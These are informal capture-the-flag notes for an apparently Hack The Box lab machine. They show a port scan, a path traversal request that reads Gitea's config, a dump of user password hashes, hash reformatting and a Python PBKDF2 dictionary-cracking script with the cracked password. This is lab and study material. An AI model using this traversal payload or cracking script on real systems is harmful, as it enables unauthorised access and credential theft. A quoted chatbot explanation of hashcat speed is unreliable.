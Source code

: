 ___


# only 2 open ports
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63



endpoints: 

POST /book 

with booking info

GET /download?ticket=test.json

for booking confirmation

.htaccess is the file i need to read where is it though 

where is it

I did not enumerate SUBDOMAINS !!!!!!!!!!!!!!

dev subdomain found



gitea version
Version: 1.22.1

I can read files from the server:
gitea is running 
apache is running


![[Pasted image 20250227202608.png]]
users in gitea

version: '3.8'



is administrator account SQL creds 

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always


yml for gitea

version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always


# foken found it mate

GET /download?ticket=../../../../../../../../../../../home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1


# look at this database path

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable


downloaded that cause i have creds

# open file
 sqlite3 gitea.db

.tables
SELECT * FROM table_name;


# select values

sqlite> SELECT email,salt,passwd,passwd_hash_algo FROM user;
root@titanic.htb|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50
developer@titanic.htb|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50
hacker123@hacker.fr|3d36008a67cf0cba3fada101ca42d6b4|0163f6b9f400e2befc761f885b94d04d0ff9b21fa8d910db74b0e299a274d4d3b2617e80512efa10b0688531f5ee12444da0|pbkdf2$50000$50
test@outlook.com|948d6eb8f942df63b77b1db66f8f2c1f|35edf54b3a8f5b878440612d23f786cc196c7189cfd1ecf8c74d0f69eaf6879104368ab907ae1871d9fbfb58f4ad85f33d5c|pbkdf2$50000$50

┌[ew☮ew]-(~/box/titanic)
└> echo '2d149e5fbd1b20cf31db3e3c6a28fc9b' | base64 
MmQxNDllNWZiZDFiMjBjZjMxZGIzZTNjNmEyOGZjOWIK
┌[ew☮ew]-(~/box/titanic)
└> echo 'cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136' | base64
Y2JhMjBjY2Y5MjdkM2FkMDU2N2I2ODE2MTczMmQzZmJjYTA5OGNlODg2YmJjOTIzYjQwNjJhMzk2
MGQ0NTljMDhkMmRmYzA2M2IyNDA2YWM5MjA3Yzk4MGM0N2M1ZDAxNzEzNgo=


FORMAT HASHCAT wants:

sha256:50000:MmQxNDllNWZiZDFiMjBjZjMxZGIzZTNjNmEyOGZjOWIK:Y2JhMjBjY2Y5MjdkM2FkMDU2N2I2ODE2MTczMmQzZmJjYTA5OGNlODg2YmJjOTIzYjQwNjJhMzk2MGQ0NTljMDhkMmRmYzA2M2IyNDA2YWM5MjA3Yzk4MGM0N2M1ZDAxNzEzNgo=


# there r 2 docker containers running on the machine 
1) mysql
2) gitea




# this script cracked it:

# this is what chatGPT said
### **Why Does Your Python Script Seem Faster?**

1. **Python only checks passwords sequentially** from the dictionary.
2. **If the correct password is early in the file, it stops quickly**.
3. **Hashcat is trying to be efficient at scale**, checking passwords in bulk, which isn't efficient for PBKDF2.

import hashlib
import binascii
def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value
def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
    target_hash_bytes = binascii.unhexlify(target_hash)
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            if hash_value == target_hash_bytes:
                print(f"Found password: {password}")
                return password
    print("Password not found.")
    return None

# provide stuff
salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dictionary_file = '/home/ew/Documents/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)


 
 
 
 Found password: 25282528


if you do strings on the binary then its jover you see that the script is copying the root flag to the temp dir so then just read that 



























